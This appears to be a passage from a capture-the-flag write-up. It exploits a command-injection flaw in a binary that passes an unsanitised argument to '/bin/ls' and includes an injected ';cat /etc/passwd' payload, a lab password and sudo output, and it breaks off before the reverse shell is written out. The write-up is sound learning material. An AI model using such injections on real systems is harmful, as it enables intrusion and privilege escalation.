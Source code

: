 We got a nice approach on how to get root access, the binary basically expects exactly one argument (besides the binary name). If you pass one argument, it calls `execute_command(arg)`. Otherwise, it just prints a usage message and exits.

This matters because this binary is vulnerable to `command injection`, 

```
snprintf(buf, 0x100, "%s %s", "/bin/ls", param_1)
```

Simply concatenates `"/bin/ls"` and `param_1` (without any sanitization), we can put shell metacharacters (like `;`, `&&`, `|`, etc.) in `param_1` to chain commands.

First of all, we can migrate from `www-data` to `codebase` using the password `malware`, this seem to be the right answer from the riddle, which is weird because it should be trojan but since trojan is a type of malware, it makes sense.

![Pasted image 20250604165614.png](../../IMAGES/Pasted%20image%2020250604165614.png)

Now, let's go to testing the command injection, we already know how it works, so, we can simply try this:

```
./code ";cat /etc/passwd"
```

![Pasted image 20250604165646.png](../../IMAGES/Pasted%20image%2020250604165646.png)

As seen, it works, let's start a listener and send ourselves a reverse shell, if we check our sudo -l permissions, we can check this:


```
codebad@ac11496ac62b:~$ sudo -l
Matching Defaults entries for codebad on ac11496ac62b:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
 use_pty

User codebad may run the following commands on ac11496ac62b:
 (metadata : metadata) NOPASSWD: /home/codebad/code
```
